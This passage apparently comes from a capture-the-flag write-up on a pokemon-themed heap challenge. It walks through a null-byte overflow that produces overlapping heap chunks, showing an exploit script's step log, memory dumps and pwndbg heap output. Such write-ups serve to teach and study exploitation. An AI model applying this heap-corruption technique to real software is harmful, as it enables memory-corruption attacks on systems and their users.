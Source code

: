 ```
0x405400:       0x4141414141414141      0x4141414141414141
0x405410:       0x0000000000000210      0x0000000000000210
```

**That's needed to trigger the null byte**: in fact if we allocate again pokemon 1 and its name, we should get two identical sized chunks in the same spots as before, but the allocation of the chunk representing the pokemon name (chunk 3) would result in a null byte overflow into the name of pokemon 2 (chunk 4), which is immediatly after.

##### After executing the poisoning

This is the script `stdout` that led to the heap setup below:

```shell
creating a pokemon... done! id 0
creating a pokemon... done! id 1
creating a pokemon... done! id 2
creating a pokemon... done! id 3
renaming pkm (id: 2)
renaming pkm (id: 3)
creating a pokemon... done! id 4
renaming pkm (id: 3)
[1] initial setup done. Press any key to continue...
killing pkm (id: 3) :(
creating a pokemon... done! id 3
[2] freed B. Press any key to continue...
renaming pkm (id: 2)
[3] did null byte, now B length should be one byte smaller. Press any key to continue...
renaming pkm (id: 1)
creating a pokemon... done! id 5
[4] allocated B1 and B2. Press any key to continue...
killing pkm (id: 1) :(
creating a pokemon... done! id 1
[5] freed B1. Press any key to continue...
killing pkm (id: 4) :(
[6] freed C. Press any key to continue...
renaming pkm (id: 0)
[7] Allocated overlapping chunk. Press any key to continue...
```

```assembly
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x405000
Size: 0x101

Allocated chunk | PREV_INUSE
Addr: 0x405100
Size: 0x101

Allocated chunk | PREV_INUSE
Addr: 0x405200
Size: 0x101

Allocated chunk | PREV_INUSE
Addr: 0x405300
Size: 0x101

Allocated chunk | PREV_INUSE
Addr: 0x405400
Size: 0x211

Allocated chunk | PREV_INUSE
Addr: 0x405610
Size: 0x411
```